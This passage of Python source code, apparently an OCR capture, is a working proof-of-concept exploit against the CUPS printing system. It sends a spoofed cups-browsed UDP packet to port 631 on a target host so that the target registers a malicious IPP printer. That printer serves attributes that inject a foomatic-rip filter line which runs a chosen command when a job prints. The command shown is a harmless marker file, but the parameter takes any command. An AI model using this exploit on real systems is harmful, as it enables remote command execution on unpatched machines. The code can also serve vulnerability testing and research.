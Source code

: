 ```python
                b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],

        }
        attr.update(super().minimal_attributes())
        return attr

    def handle_print_job(self, req, _psfile):
        print("target connected, sending payload ...")
        attributes = self.printer_list_attributes()
        return IppRequest(
            self.version,
            StatusCodeEnum.ok,
            req.request_id,
            attributes)


def send_browsed_packet(ip, port, ipp_server_host, ipp_server_port):
    print("sending udp packet to %s:%d ..." % (ip, port))

    printer_type = 0x00
    printer_state = 0x03
    printer_uri = 'http://%s:%d/printers/NAME' % (
        ipp_server_host, ipp_server_port)
    printer_location = 'Office HQ'
    printer_info = 'Printer'

    message = bytes('%x %x %s "%s" "%s"' %
                    (printer_type,
                     printer_state,
                     printer_uri,
                     printer_location,
                     printer_info), 'UTF-8')

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(message, (ip, port))


if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("%s <LOCAL_HOST> <TARGET_HOST>" % sys.argv[0])
        quit()

    SERVER_HOST = sys.argv[1]
    SERVER_PORT = 12345

    command = "echo 1 > /tmp/I_AM_VULNERABLE"

    server = IPPServer((SERVER_HOST, SERVER_PORT),
                       IPPRequestHandler, MaliciousPrinter(command))
    print('malicious ipp server listening on ', server.server_address)
    server_thread = threading.Thread(target=server.serve_forever)
    server_thread.daemon = True
    server_thread.start()

    TARGET_HOST = sys.argv[2]
    TARGET_PORT = 631
    send_browsed_packet(TARGET_HOST, TARGET_PORT, SERVER_HOST, SERVER_PORT)

    try:
        while server_thread.is_alive():  
            server_thread.join(timeout=1.0)  
    except KeyboardInterrupt:  
```